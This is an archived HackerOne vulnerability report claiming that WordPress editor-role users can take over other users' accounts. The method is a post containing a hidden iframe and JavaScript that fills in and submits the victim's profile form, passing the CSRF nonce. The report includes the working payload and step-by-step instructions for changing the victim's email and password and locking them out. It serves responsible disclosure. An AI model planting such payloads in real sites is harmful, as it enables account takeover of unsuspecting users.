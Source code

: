 # Account takeover vulnerability by editor role privileged users/attackers via clickjacking

## Report Details
- **Report ID**: 388254
- **URL**: https://hackerone.com/reports/388254
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-07-29T13:01:58.516Z
- **Disclosed**: 2018-09-03T12:27:11.728Z

## Reporter
- **Username**: rewanth_cool
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
####Vulnerability -
Editor role privileged users are able to hack into other's account by exploiting clickjacking vulnerability.

####Version-
4.9.7

####Issue-
https://make.wordpress.org/core/handbook/testing/reporting-security-vulnerabilities/#why-are-some-users-allowed-to-post-unfiltered-html
As mentioned per the above link, the editor and admin roles are given permissions to inject arbitary javascript in the posts. Though its a severe vulnerability we can't report about injecting javascript to steal cookies.
**But only the admin roles/users have the permissions to change the details of other users. Due to this vulnerability editor privileged users are even able to do account takeover of other users account.**
Allowing the editor role privileged users to use unfiltered HTML (https://en.support.wordpress.com/code/) exposed a new vulnerability via clickjacking. Impact has been explained clearly in the below section. This attack expects the wordpress user to be logged in before he opens the malicious post link sent by the editor privileged user.

####Reproduction steps-
1. Create two user accounts, one with author/subscriber privileges and other with editor privileges.
2. Get logged in using the editor privileged account and create a new post with the following code.
Replace `159.65.157.23:9080` with your IP address.

```
<iframe src="http://159.65.157.23:9080/wp-admin/profile.php" id="frame" onload="loaded()" style="visibility:hidden"></iframe>

<script>
var MyIFrame = document.getElementById("frame");
var MyIFrameDoc = (MyIFrame.contentWindow || MyIFrame.contentDocument || MyIFrame.document);
function loaded(){
MyIFrameDoc.document.getElementById("your-profile").first_name.value="hacked by rewanthcool"
MyIFrameDoc.document.getElementById("your-profile").submit.click();
alert("Your first name has been changed to " + MyIFrameDoc.document.getElementById("your-profile").first_name.value + ". Visit http://159.65.157.23:9080/wp-admin/profile.php for confirmation");
}
</script>
```

3. Now click on `publish` button to publish the URL. Copy the URL to the malicious post.
4. Now get logged in as another user with author/subscriber privileged roles in another browser/incognito tab.
5. Now paste the malicious URL (copied in step 3) in this browser and press enter.
6. Boom !! Now the open the profile page of the author/subscriber privileged user `http://159.65.157.23:9080/wp-admin/profile.php` and you can see his firstname got changed to rewanthcool.

**Similarly you can change the email of the user** by changing `first_name` parameter in above payload to `email`. So, now your payload becomes, `MyIFrameDoc.document.getElementById("your-profile").email.value="attacker_rewanthcool@gmail.com"`. By submitting this payload, you will get a confirmation email link to your profile and you can takeover the victim's account.

###NOTE-
CSRF protection adds `_wpnonce` to prevent these kind of CSRF attacks but since we are handling everything in an iframe bypasses this CSRF protection as it generates a new valid `_wpnonce` while it gets loaded in the iframe.

In the above payload, the attacker was able to change the firstname of the victim. That's just a sample. In worst cases, there are two main fields in the same page. They are
1. Email-id
2. New Password which generates new password by click on a button.
3. Sessions: Logout everywhere else.

By using the combination of hidden iframe and javascript, the attacker can craft a similar payload and takeover a wordpress users account.

####Mitigation-
Disallow editor privileged users from injecting iframes into the pages/posts by changing the `X-Frame-Options` header to `DENY`.

## Impact

Editor role users can access other users account and change his personal information, change this settings, etc just by making the user to visit a nicely crafted page post.

###Worst-case attack scenario
Most dangerous impact can be **account takeover** by changing the email-id and password of the victim by injecting an iframe.

###Detailed explanation of vulnerability-
CSRF on edit-profile has been smartly handled by wordpress developers by adding `_wpnonce` to it. But allowing the editor privileged users to inject iframes into the posts bypasses this CSRF protection.

A hidden iframe can be put in a post and its URL can be sent to the victim(lower privileged user like author, subscriber, etc). Once the victim clicks on the URL sent by the attacker, the hidden iframe will be submitting a javascript request to change the victim's firstname and lastname. In worst cases, the attacker can submit two requests via iframe using javascript to make account takeover.
1. First request, to generate new password via hidden iframe.. This disabled the victim from using old password.
2. Second request, to change the victim's email id to attacker's email id via hidden iframe. This completely disables to user to use the `forgot-password` option as the email id has been changed.
3. Attacker now clicks on `forgot-password` and a reset email will be sent to the attackers email id.
4. Account takeover completed and editor privileged user hacked the other wordpress users with other privileges.

###Bonus feature/exploit to lock the victim-
There's an option to logout from everywhere in the edit-profile page, by clicking on that the attacker can make sure that the victim is not logged into any other accounts after he changed the password.

Only admin privileged users should be having the abilities to change the personal information like usernames, email-id, etc of other accounts but due to this vulnerability the editor privileged user is also getting the same amount of privileges as admin privileged user which definitely is a bad practice.

Considering the high severity of the issue, I'm sure this will be considered as an exceptional report with immediate fix.

## Attachments
No attachments
